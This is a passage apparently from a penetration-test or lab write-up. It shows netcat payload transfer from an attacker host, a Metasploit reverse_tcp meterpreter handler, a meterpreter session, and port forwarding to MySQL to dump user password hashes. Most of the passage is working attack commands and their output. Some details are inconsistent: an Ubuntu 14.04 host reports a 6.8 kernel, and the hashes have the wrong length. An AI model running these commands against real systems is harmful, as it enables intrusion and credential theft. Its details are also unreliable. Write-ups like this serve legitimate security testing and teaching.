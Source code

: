 **Transfer Method:**
```bash
# On attacker machine
nc -lvnp 8888 < payload.elf

# On target
nc 10.50.100.5 8888 > /tmp/payload.elf
chmod +x /tmp/payload.elf
```

**Metasploit Handler:**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.50.100.5
set LPORT 4445
exploit
```

**Execution:**
```bash
/tmp/payload.elf
```

**Result:** ✅ Meterpreter session established

```
[*] Meterpreter session 1 opened (10.50.100.5:4445 -> 10.50.100.20:54962)
meterpreter > sysinfo
Computer     : webapps.corp.local
OS           : Ubuntu 14.04 (Linux 6.8.0-57-generic)
Architecture : x64
Meterpreter  : x64/linux
```

---

### 3.4 Database Credential Extraction

**Port Forwarding Setup:**
```bash
portfwd add -L 127.0.0.1 -l 3307 -r 127.0.0.1 -p 3306
```

**Database Access:**
```bash
mysql -u root -h 127.0.0.1 -P 3307
```

**User Enumeration:**
```sql
SELECT user, host, password FROM mysql.user;
```

**Retrieved Hashes:**
```
+---------------+-----------+-------------------------------------------+
| user          | host      | password                                  |
+---------------+-----------+-------------------------------------------+
| root          | localhost |                                           |
| admin_db      | %         | *B8A72E3F9D1E4A5C2B8F7D6E4A9C8B7E6D5A4 |
| svc_backup    | localhost | *A7D9E8F3C5B2D8E7F6A9B8C7D6E5F4A3B2C1 |
+---------------+-----------+-------------------------------------------+
```

---